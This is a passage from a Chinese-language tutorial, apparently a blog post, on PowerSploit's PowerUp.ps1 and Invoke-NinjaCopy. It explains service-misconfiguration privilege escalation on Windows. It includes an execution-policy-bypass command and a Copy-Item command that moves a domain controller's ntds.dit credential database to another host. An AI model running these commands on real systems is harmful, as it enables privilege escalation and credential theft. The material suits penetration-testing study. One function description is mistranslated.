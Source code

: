 
**Other Helpers/Meta-Functions(其他一些模块的帮助)** 

```
Get-ModifiablePath                 该模块标记输入字符串并返回当前用户可以修改的文件
Get-CurrentUserTokenGroupSid       该模块返回当前用户参与的所有小岛屿发展中国家，无论它们是否已禁用。
Add-ServiceDacl                    该模块将dacl字段添加到get-service返回的服务对象中
Set-ServiceBinPath                 该模块通过Win 32 api方法将服务的二进制路径设置为指定的值。
Test-ServiceDaclPermission         该模块用于检查所有可用的服务，并尝试对这些打开的服务进行修改。如果能修改，则返回该服务对象。使用：Test-ServiceDaclPermission -servicename 服务名
Write-UserAddMSI                   该模块写入一个MSI安装程序，提示要添加一个用户。
Invoke-AllChecks                   该模块会自动执行 PowerUp.ps1 下所有的模块来检查目标主机是否存在服务配置漏洞
```

**以下是这些模块提权的原理：** 

*   Get-ServiceUnquoted 模块提权 (该模块利用了 Windows 的一个逻辑漏洞，即当文件包含空格时，WindowsAPI 会解释为两个路径，并将这两个文件同时执行，这个漏洞在有些时候会造成权限的提升)。
    

*   Test-ServiceDaclPermission 模块提权 (该模块会检查所有可用的服务，并尝试对这些打开的服务进行修改，如果可修改，则存在此漏洞)。Windows 系统服务文件在操作系统启动时会加载执行，并且在后台调用可执行文件。比如在每次重启系统时，Java 升级程序都会检测出 Oracle 网站是否有新版 Java 程序。而类似 Java 程序之类的系统服务程序，在加载时往往都是运行在系统权限上的。所以如果一个低权限的用户对于此类系统服务调用的可执行文件具有可写的权限，那么就可以将其替换成我们的恶意可执行文件，从而随着系统启动服务器获得系统权限。。 
    

### Invoke-Allchecks 模块

```
powershell -exec bypass -c import-module .\PowerUp.ps1;Invoke-Allchecks
```

```
-verbose
```

运行该脚本，该脚本会自动检查 PowerUp.ps1 下所有的模块，并在存在漏洞利用的模块下的 AbuseFunction 中直接给出利用方法

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm8mxmpBPSS4MUHORdBDtHHqpXfUqCWnbx2xhQWsRc11B9ToxIr82v0oQ/640?wx_fmt=png)

Invoke-NinjaCopy.ps1 脚本的使用
--------------------------

该脚本在 Exfiltration 目录下，该文件的作用是复制一些系统无法复制的文件，比如 sam 文件。还可以在域环境中传输文件 (前提是执行命令的用户是域用户)

注：该脚本需要管理员权限运行

**复制文件**

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm83kETLdicA2oSXrkiarmlWnrRa30M4gKcaibtpJeSMWCj1cCz34KJg9EhQ/640?wx_fmt=png)

**域环境中传输文件**

```
Copy-Item '\\dc.offensive.local\C$\Users\administrator\Desktop\ntds.dit'-Destination '\\Client1.offensive.local\C$\Users\alice\Desktop\tools\ntds.dit'   #将dc.offensive.local主机上c:\users\administrator\desktop\ntds.dit文件复制到 Client1.offensive.local 主机的C:\users\alice\Desktop\tools\ntds.dit文件
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2el8IVJb5iaQMuhOH5eb7lm8Yib1DEuhRnaptBPUdt3G52dVAmagVr1u61w4M4VJowflHsYiaP3LMB7g/640?wx_fmt=png)

未完待续。。。。。。。。。

参考书籍：《Web 安全攻防 - 渗透测试实战指南》